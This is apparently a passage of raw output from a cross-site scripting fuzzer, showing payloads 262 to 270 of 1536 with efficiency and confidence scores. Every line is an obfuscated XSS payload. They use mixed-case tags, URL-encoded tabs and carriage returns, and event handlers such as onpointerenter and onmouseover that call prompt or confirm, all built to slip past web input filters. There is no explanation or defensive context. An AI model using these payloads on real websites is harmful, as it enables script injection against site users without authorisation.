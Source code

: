 ------------------------------------------------------------
 Payload: <d3v%0dOnpoiNTErEntER%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 262/1536
 
------------------------------------------------------------
 Payload: <HTmL/+/ONpOiNTeRENTer%0a=%0a[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 263/1536
 
------------------------------------------------------------
 Payload: <A%09ONmouSeovEr%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 264/1536
 
------------------------------------------------------------
 Payload: <A%09ONMOUSEOVeR+=+a=prompt,a()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 265/1536
 
------------------------------------------------------------
 Payload: <D3v/+/OnmOuSEoVEr%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 266/1536
 
------------------------------------------------------------
 Payload: <HtMl/+/oNMouSEOVEr%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 267/1536
 
------------------------------------------------------------
 Payload: <d3v%0doNPoInTEREnteR+=+[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 268/1536
 
------------------------------------------------------------
 Payload: <A%09OnPOiNtereNteR+=+(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 269/1536
 
------------------------------------------------------------
 Payload: <hTML/+/ONmoUSeOVER+=+[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 270/1536
 